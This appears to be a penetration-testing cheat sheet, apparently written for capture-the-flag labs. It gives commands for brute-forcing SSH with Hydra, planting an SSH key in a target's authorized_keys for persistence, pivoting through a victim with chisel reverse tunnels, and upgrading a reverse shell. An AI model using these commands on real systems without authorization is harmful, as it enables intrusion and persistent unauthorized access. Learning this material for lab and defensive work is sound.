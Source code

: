 # Tips
## Bruteforce SSH
Use Hydra :
```bash
hydra -l 'USERNAME' -P FILE_CONTAINING_PASSWORDS -M FILE_CONTAINING_IP_TO_BRUTEFORCE -t 4 ssh
```
## Persistance
Generate SSH key :
```bash
ssh-keygen -t rsa
```
Paste it to authorized_keys :
```bash
echo XXXX >> ~/.ssh/authorized_keys
```
Then, put the file on the target machine.
## Port Forwarding
### Using SSH
To access a locally exposed service on a remote machine :
```bash
ssh -L YOUR_PORT:localhost:PORT_EXPOSED USERNAME@IP_ADDRESS
```
### Using chisel
To redirect a port (here, 3000) when you're in a docker for example (victim = 172.17.0.1 and your host = 10.10.16.8). Firstly, run a chisel server on your host :
```bash
./chisel server -p 8000 --reverse
```
Then, on the docker, redirect to your host from the victim machine :
```bash
./chisel client 10.10.16.8:8000 R:127.0.0.1:8890:172.17.0.1:3000
```
Then you can access the service with http://localhost:8890/.
## Get a proper shell on reverse shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Logs all your commands
In order to keep all the commands you've used, paste this at the end of your .zshrc file (located in home) :
```bash
PS1=$'[`date  +"%d-%b-%y %T"`]%{\033[01;31m%} `ifconfig eth0 2>/dev/null | sed -n 2,2p | cut -d" " -f 10`%{\033[00m%} %{\033[01;34m%}%c%{\033[00m%} > '
test "$(ps -ocommand= -p $PPID | awk '{print $1}')" == 'script' || (script -f $HOME/.log/$(date +"%d-%b-%y_%H-%M-%S")_shell.log)
```
You can then just cat logs on a terminal, it will print it out pretty well.
